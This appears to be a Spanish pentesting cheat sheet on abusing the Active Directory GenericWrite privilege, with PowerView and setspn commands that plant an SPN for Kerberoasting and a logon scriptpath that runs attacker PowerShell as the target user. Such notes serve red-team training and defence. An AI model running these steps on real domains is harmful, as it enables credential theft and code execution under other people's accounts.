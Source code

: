 ## GenericWrite

Gracias a este privilegio sobre un usuario podríamos asignar un SPN (Service Principal Name) a la cuenta:

```powershell
Set-DomainObject -Identity <USUARIO> -SET @{serviceprincipalname='nonexistent/RUY'}
```

Si Kerberos (puerto 88) está abierto, es solo cosa de usar `impacket-GetUserSPNs`, como está explicado en `Ataques a Kerberos`. En caso de que el puerto 88 no esté expuesto, o bien le haces **Port Forwarding** con `chisel` o bien se puede hacer con la siguiente instrucción de `powershell`:

```powershell
Get-DomainUser <USUARIO> | Select serviceprinciplename
```

Otra forma de hacerlo es con este comando:

```powershell
setspn -a <SPN>/<DOMINIO> <DOMINIO>\<USUARIO>
```

Después debemos importar el módulo `PowerView` como se explica arriba, ya que `PowerView` tiene `Get-DomainSPNTicket` para hacer `Kerberoasting` attack. Vale, qué pasa? Que esta utilidad te va a pedir credenciales, aunque ya estés logueado, así que tienes que exportar algunas variables:

```powershell
$pass = ConvertTo-SecureString '<CONTRASEÑA>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<DOMINIO>\<USUARIO>', $pass)
Get-DomainSPNTicket -SPN "<SPN>/<DOMINIO>" -Credential $cred
```

Y con esto deberías obtener el hash del usuario sobre el que tienes `GenericWrite`. 

Otra forma de abusar de esto en la que **no** obtienes un hash (por ejemplo una situación en la que la contraseña es robusta) es abusando de los `AD Logon Scripts`. Esto viene a ser a que, suponiendo que el usuario sobre el que tenemos `GenericWrite` está iniciando sesión cada cierto tiempo, si tú puedes controlar atributos y asignas un atributo, podemos hacer como hicimos antes pero en vez de un `serviceprincipalname` configuraremos un `scriptpath`, que será un script en `powershell` que se ejecutará cuando el usuario en cuestión inicie sesión. 
Lo primero que necesitamos es importar el módulo `PowerView`, como hicimos antes.
Una vez hecho esto, definiremos un script de prueba en `PowerShell` a ver si se ejecuta como el usuario al que queremos abusar:

```powershell
echo 'dir C:\Users\Maria\Desktop\ > C:\Users\smith\Documents\output.txt' > test.ps1
```

Ahora la idea es un poco la misma de antes:

```powershell
Set-DomainObject -Identity <USUARIO> -SET @{scriptpath='path\\to\\script.ps1'}
```

Cuando el usuario se conecte podremos ver el archivo `Output.txt`. Y ahora podemos ejecutar comandos como el usuario :)

## WriteOwner
